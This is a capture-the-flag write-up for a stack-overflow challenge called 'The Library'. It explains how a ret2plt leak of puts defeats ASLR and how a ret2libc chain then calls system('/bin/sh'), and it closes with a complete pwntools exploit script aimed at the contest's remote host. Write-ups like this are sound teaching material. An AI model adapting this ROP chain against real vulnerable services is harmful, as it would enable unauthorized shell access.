 # The Library 

So, from the name and desc, as well as the fact you're provided with the libc binary, we know this is a ret2libc right off the bat. Inspecting the source code, we can see the read function is called into a 16-byte array, reading 0x100 bytes from stdin. This opens up a lot of room for overflow.

The array is stored at rbp-0x10, leaving 24 bytes of padding until our ROP chain.

We can use ret2plt to leak a libc address by calling the libc function puts via the PLT on the puts entry in the GOT, effectively printing a libc address back to ourselves. This works because there's no PIE in the binary, so the GOT and the PLT are stable.

So, we can first send padding + poprdi + puts@got + puts@plt + main so that the program calls puts on puts@got, sending us a libc address, and then rets back into main so we can get another input. On this second input, now that we know exactly where the libc is and have defeated ASLR, we send padding + poprdi + /bin/sh address + ret gadget + system address. This forces the program to call system("/bin/sh"), popping a shell for us. The ret gadget is needed to fix stack alignment.

```python
from pwn import *
import sys 
mode = sys.argv[1]
NUM_TO_RET = 0x10 + 8
padding = b'A' * NUM_TO_RET
poprdi = 0x0000000000400733 # pop rdi ; ret
retgadget = 0x0000000000400506 # ret
e = ELF("./library")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if mode == 'local' else './libc.so.6')
p = e.process() if mode == 'local' else remote('2020.redpwnc.tf', 31350)
p.recvline()
leak = flat(padding, poprdi, e.got['puts'], e.plt['puts'], e.symbols['main'], word_size=64)
p.sendline(leak)
p.recvlines(2)
output = p.recvline()[:-1] + b'\x00\x00'
puts = u64(output)
log.info(f"Puts address leak:  {hex(puts)}")
libcbase = puts - libc.symbols['puts']
libc.address = libcbase
log.info(f"Libc base: {hex(libcbase)}")
p.recvline()
final = flat(padding,poprdi,next(libc.search(b"/bin/sh\x00")),retgadget,libc.symbols['system'],word_size=64)
p.sendline(final)
p.interactive()
```
